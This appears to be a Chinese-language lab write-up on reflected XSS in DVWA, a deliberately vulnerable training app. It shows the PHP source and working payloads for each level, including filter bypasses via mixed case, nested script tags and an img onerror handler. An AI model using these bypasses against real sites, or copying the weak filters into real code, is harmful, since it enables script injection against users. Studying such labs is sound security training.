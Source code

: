 ```yaml
---
layout: post
title: "DVWA Reflected XSS"
description: ""
date: 2023-07-11
categories:
  - DVWA
  - DVWA_XSS
author: ""
tags: ['DVWA', 'XSS']
---
```




# DVWA Reflected XSS

###### tags: `DVWA`





Low:

code:
```php=
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?> 

```


沒過濾。

payload:
```

<script>alert(1)</script>
```

<br/><br/>

# Medium

code:

```php=
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?> 
```

只要script tag 出現就轉空

繞過:
```


大寫繞過
<Script>alert(1)</script>




雙寫繞過。
<s<script>cript>alert(1)</script>


```

最好不要用字串過濾，繞過機率比較高，如果要也要用出現關鍵字一次，就失敗。



<br/><br/>

# High


code:
```php=
 <?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>

```

這題就是這樣，只要出現script 字串就轉空。，他用regex 貪婪匹配，所以不只比對一次。


所以不能用 script tag

改用 img tag
```
<img src="123"  onerror="alert(1);" />
```

成功

<br/><br/>

# Impossible


htmlspecialchars 過濾掉蠻多特殊字元，所以基本上很難繞過。

code:
```php=
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();

?> 

```














